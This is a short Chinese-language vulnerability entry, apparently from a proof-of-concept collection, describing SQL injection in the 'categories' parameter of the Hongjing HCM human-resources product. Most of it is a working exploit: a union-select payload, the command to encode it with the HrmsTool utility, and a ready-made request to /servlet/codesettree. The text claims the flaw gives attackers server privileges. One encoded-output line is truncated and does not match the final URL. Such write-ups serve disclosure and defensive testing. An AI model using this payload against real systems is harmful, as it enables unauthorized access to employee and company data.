 #### 影响范围

宏景HCM

#### 漏洞概述

宏景HCM多维度组织维护便捷，机构图展示形式更加符合潮流，全模块适配海量数据库,数据的利用率和一致性进一步提高，UI焕新上线、应用全面升级，宏景HCM categories处存在SQL注入漏洞，攻击者可以从其中获取服务器权限

#### 漏洞复现

使用github上的hrmstool加解密工具进行转换

https://github.com/vaycore/HrmsTool

```
#初始载荷
1' union all select 'hellohongjingHcm',db_name()--
    
#转换载荷
java -jar HrmsTool.jar -e "1' union all select 'hellohongjingHcm',db_name()--"
=>
~31~27~20union~20all~20select~20~27hellohongjingHcm~27~2cdb~5fname~28~29~2d~2
```

执行POC查询hellohongjingHcm和db_name()，得到查询结果

 ```
 /servlet/codesettree?categories=~31~27~20union~20all~20select~20~27hellohongjingHcm~27~2cdb~5fname~28~29~2d~2d&codesetid=1&flag=c&parentid=-1&status=1
 ```





